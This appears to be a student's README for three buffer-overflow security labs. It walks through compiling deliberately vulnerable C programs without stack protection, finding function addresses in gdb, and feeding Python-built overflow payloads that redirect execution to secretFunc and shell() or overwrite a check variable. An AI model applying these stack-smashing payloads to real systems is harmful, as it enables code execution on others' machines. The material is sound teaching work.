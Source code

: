 ## @author:Mai Đức Kiên
## @Id:22110046

## Exercise-Security Lab bof1
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/stackframe.png" /> <br>

### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
3. Run code command. to open visual studio in terminal <br>
4. Run docker container from previously built image <br>
5. Run this command to create file bof1.out<br>
`$>gcc -g bof1.c -o bof1.out`<br>
6. Compile program with options to code execution on stack <br>
`$>gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2` <br>
7. Load vuln.out in gdb <br>
`$> gdb -q bof1.out` <br>
8. Get the secretFunc function address <br>
`$> disas secretFunc` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/secretFuncAddress.png" /> <br>
9. Once we have obtained the secretFunc function address: 0804846b, we must exit gdb <br>
`$> q` <br>
10. Overflow memory we need to fill 204 characters + 4 characters of secretFunc function address <br>
`$>echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result.png" /> <br>
11. Remove the missing arguments line, add the variables a,b,1,2,... to the end of bof1.out
`$> echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 1` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result1.png" /> <br>

## Exercise-Security Lab bof2
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
![image](https://github.com/user-attachments/assets/e77fc665-25ba-44a2-8082-b0075633236f)
### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
3. Overflow memory we need to fill 40 characters + 4 characters of variable check address <br>
`$>echo $(python -c "print('a'*40+'\xff\xff\xff\xff')") | ./bof2.out` <br>
![image](https://github.com/user-attachments/assets/548b9b77-c695-48af-9e64-7334b3b7626d)
4. Else print out this statement printf("Yeah! You win!\n") <br>
`$>echo $(python -c "print('a'*40+'\xef\xbe\xad\xde')") | ./bof2.out` <br>
![image](https://github.com/user-attachments/assets/738be82f-7ceb-487d-9b3b-2a985bde5b0f)


## Exercise-Security Lab bof3
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
![image](https://github.com/user-attachments/assets/085fefae-1b34-4858-8c32-20a934d187a4)

### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
4. If you want print out this statement printf("Congration") <br>
`$>echo $(python -c "print('a'*90)") | ./bof3.out` <br>
![image](https://github.com/user-attachments/assets/96b54264-7179-46a4-a9ce-463989c2357c)
5. Run code command. to open visual studio in terminal <br>
6. Run docker container from previously built image <br>
7. Run this command to create file bof1.out<br>
`$>gcc -g bof3.c -o bof3.out`<br>
8. Compile program with options to code execution on stack <br>
`$>gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2` <br>
9. Load bof3.out in gdb <br>
`$> gdb -q bof3.out` <br>
10. Get the shell function address <br>
`$> disas shell` <br>
![image](https://github.com/user-attachments/assets/b52f5476-56e8-4205-8f8a-c3883ccd9be9)
11. If you want print out this statement printf("You made it! The shell() function is executed\n") <br>
`$>echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')") | ./bof3.out` <br>




   

